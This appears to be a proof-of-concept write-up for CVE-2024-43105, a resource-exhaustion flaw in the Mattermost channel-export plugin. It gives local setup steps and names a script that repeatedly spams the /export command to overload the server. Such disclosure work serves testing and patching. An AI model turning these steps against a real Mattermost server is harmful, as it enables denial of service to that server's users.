


# CVE-2024-43105

| Weakness Enumeration |
| -------------------- |
| CWE-400              |

## Impact

Excessive Resource Consumption (CPU load, memory)

## Exploitation

Execute `/export` multiple times.

```bash
docker compose up # start mattermost instance (for testing)

firefox http://localhost:8065 # create account && create organization

firefox http://localhost:8065/admin_console/environment/developer # enable testing commands && enable developer mode

git clone https://github.com/mattermost/mattermost-plugin-channel-export # clone the plugin
cd mattermost-plugin-channel-export
git checkout b49fb0ea03402f58f42105548d8fb8e86e06f0c0

export MM_ADMIN_TOKEN='authtoken of self'
export MM_SERVICESETTINGS_SITEURL=http://localhost:8065

make deploy # deploy the plugin

cd ..

export MM_CHANNEL_ID='channel-id of town-square'
export MM_USER_ID='user-id of self'
export MM_TEAM_ID='team-id of team'

./scripts/prepare-instance.ts # create some posts
```



```bash
./scripts/spam-export.ts # start spamming `/export`
```


